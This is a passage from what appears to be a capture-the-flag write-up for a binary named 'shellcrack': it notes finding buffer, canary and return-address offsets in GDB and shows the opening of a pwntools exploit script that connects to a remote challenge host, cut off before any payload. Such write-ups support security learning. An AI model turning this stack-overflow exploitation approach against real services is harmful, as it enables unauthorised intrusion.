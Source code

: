 4. GDB again. Find addresses and the offsets against one another: {gets() buffer, canary, ret} -> same as step 3 (too lazy to write novels)
5. Write script

Script/Command used 
------------------ 
``` 
#!/usr/bin/python2



from pwn import *
import time

PROGRAM_NAME = "shellcrack"
ENCODING = "ascii"
MAGIC_CHAR = 'Z'

# config local stuff
context.binary = './shellcrack'

def io_beg():
	return remote('plzpwn.me', 5001)
	#process("./shellcrack")
	#remote('plzpwn.me', 2000)
	
def io_rdy(x):
	x.recvuntil("Enter as", timeout = 3)
	x.recvline()
	return 1


# https://stackoverflow.com/a/3368991
def find_between( s, first, last ):
    try:
        start = s.index( first ) + len( first )
        end = s.index( last, start )
        return s[start:end]
    except ValueError:
        return ""

def find_between_r( s, first, last ):
    try:
        start = s.rindex( first ) + len( first )
        end = s.rindex( last, start )
        return s[start:end]
    except ValueError:
        return ""


def main():	
	# due to  madjick,
	# this script works (253/256)^9 * 100 percent of times which is ok I hope


	# usage
	# 1. place in the same dir as shellcrack
	# 2. work

	context.binary = "./shellcrack"
	
	fin = 0
	stage = 0
	
```
